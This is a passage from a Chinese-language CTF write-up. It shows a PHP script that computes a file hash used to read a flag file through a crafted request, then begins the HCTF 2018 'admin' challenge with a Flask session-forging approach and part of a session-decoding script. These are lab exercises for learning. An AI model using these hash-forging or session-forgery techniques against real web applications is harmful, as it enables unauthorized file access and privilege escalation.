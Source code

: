 PHP脚本跑一下可以获得filehash：

```php
<?php
echo md5("39cedf08-4782-4456-b648-fa29f2c3aba9".md5("/fllllllllllllag"));

$file_hash = array(
    "/hints.txt" => "6718cdb87bbfdf01834d2ff058dfc77a", 
    "/hints.txt-res" => "85873c38514234be233f9318a17450f5",
    "/flag.txt" => "40dfb7391c19a66939e6b6f4e9898804", 
    "/flag.txt-res" => "e27ed0a861b00185d3429dd62561bd1c",
    "/welcome.txt" => "89aebe7e1c82925a8896b18ed6bd3335",
    "/welcome.txt-res" => "617415f68384bc7b96ee0b6b0df42809"
    )
?>
```

filehash：`06d280b8d701aaea9f2c8bc5e21605b6`

payload：

```
/file?filename=/fllllllllllllag&filehash=06d280b8d701aaea9f2c8bc5e21605b6

=> /fllllllllllllag
flag{811abc8f-ce7b-4c88-bb5b-4c89a65efac0}
```

## [HCTF 2018]admin

Login过滤了引号，时间盲注不成功

参考：[一题三解——[HCTF 2018]admin](https://www.anquanke.com/post/id/164086)

---

### 思路一：Session伪造

[Flask-Session加密解密](https://github.com/noraj/flask-session-cookie-manager)

随意注册一个账号后，在修改密码的页面源码中能看到网站源码的Github仓库。由于我做这题时仓库中的源码已经消失了，因此主要看WP解题（233）

源码中显示只要Session中的"name"键的值为"admin"即可获得管理员权限，因此目标是伪造Session。

Flask对Session进行了签名处理后标记在Cookie后，用来检查Cookie是否被篡改；Session的编码过程在Flask源码中可见，可以编写逆处理脚本还原Json对象，查看Session内容：

```python
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

```